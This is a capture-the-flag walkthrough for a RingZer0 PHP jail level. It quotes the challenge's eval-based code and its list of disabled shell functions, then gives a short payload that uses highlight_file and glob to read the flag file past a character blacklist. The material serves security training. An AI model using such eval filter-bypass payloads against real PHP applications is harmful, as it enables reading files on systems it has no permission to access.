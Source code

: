 # **PHP Jail 3**

First SSH to the service, password is Flag of `PHP Jail 2` challenge.

```shell=

ubuntu@ubuntu-virtual-machine:~$ ssh level3@challenges.ringzer0team.com -p 10225 

level3@challenges.ringzer0team.com's password:[PHP Jail 2 Flag]

RingZer0 Team Online CTF

PHP Jail Level 3:
Current user is uid=1002(level3) gid=1002(level3) groups=1002(level3)

Flag is located at /home/level3/flag.txt

Challenge PHP code:
-----------------------------

WARNING: the PHP interpreter is launched using php -c php.ini jail.php.
The php.ini file contain "disable_functions=exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,readfile,require,require_once,include,include_once,file"

<?php
array_shift($_SERVER['argv']);
$var = implode(" ", $_SERVER['argv']);

if($var == null) die("PHP Jail need an argument\n");

function filter($var) {
	if(preg_match('/(`|\.|\$|\/|a|c|s|require|include)/i', $var)) {
		return false;
	}
	return true;
}
if(filter($var)) {
	eval($var);
	echo "Command executed";
} else {
	echo "Restricted characters has been used";
}
echo "\n";
?>

-----------------------------
Your input:

```

In warning, there's a lot of functions has been disable, but not `highlight_file()`.

```shell=
Your input:
highlight_file("flag.txt");
Restricted characters has been used
```

Unfortunately, `flag.txt`'s `a` & `.` is forbidden, let's try another way.

Then we found that `glob()` is allowed.

```shell=
Your input:
highlight_file(glob("fl*txt")[0]);
<code><span style="color: #000000">
FLAG-XXXXXX<br /></span>
</code>Command executed
```

`[0]` is need by `highlight_file()`, cuz glob() doesn't return specific path.